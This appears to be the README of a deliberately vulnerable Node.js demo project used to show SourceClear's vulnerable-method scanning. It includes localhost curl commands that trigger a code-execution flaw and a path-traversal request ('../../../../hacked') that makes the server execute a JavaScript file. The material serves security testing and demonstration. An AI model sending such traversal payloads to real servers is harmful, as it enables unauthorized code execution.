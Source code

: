 # [:] Example node project with vulnerable methods

A node project to demonstrate srcclr agent's vulnerable methods feature for JavaScript

## Vulnerability 1 Exploit

```
git clone https://github.com/srcclr/example-javascript-vulnerable-methods.git
cd example-javascript-vulnerable-methods
npm install
node index.js

```

and then run the following command in another terminal

```
curl --path-as-is 'http://127.0.0.1:8001/api/'
```
You can see the the code execution vulnerability are executed mutliple times.


## Vulnerability 2 Exploit

```
git clone https://github.com/srcclr/example-javascript-vulnerable-methods.git
cd example-javascript-vulnerable-methods
npm install
node larvitbase-api.js

```

and then run the following command in another terminal

```
curl --path-as-is 'http://127.0.0.1:8001/../../../../hacked'
```
You can see the JavaScript file`hacked.js` is executed in the server side.

## Scan with SRCCLR Agent

```
brew tap srcclr/srcclr
brew install srcclr
srcclr activate
srcclr scan --url https://github.com/srcclr/example-javascript-vulnerable-methods
```
